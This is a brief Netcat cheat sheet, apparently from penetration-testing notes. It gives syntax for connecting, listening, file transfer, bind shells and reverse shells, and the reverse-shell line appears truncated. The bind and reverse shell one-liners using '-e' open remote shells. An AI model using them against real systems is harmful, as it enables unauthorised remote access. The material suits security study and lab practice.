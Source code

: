# Cheat Sheets

## Netcat

| Common Use Case | Syntax |
| :--- | :--- |
| Connect | `nc -nv <target ip> <port>` |
| Listen | `nc -nvlp <port>` |
| File Transfer - Receive | `nc -nvlp <port> > Recvfilename` |
| File Transfer - Send | `nc -nv <target ip> <port> < Sendfilename` |
| Bind Shell - Host | `nc -nvlp <port> -e <shell>` |
| Rev Shell - Host | `nc -nv  -e <shell>` |

{% hint style="info" %}
&lt;shell&gt; is usually cmd.exe on Windows or /bin/bash on Linux
{% endhint %}

| Command Line Arg | Purpose |
| :--- | :--- |
| -n | Skip DNS lookup |
| -v | Verbsose output |
| -l | Listener mode |
| -e | Connect program to network |
| -p | Specify port |



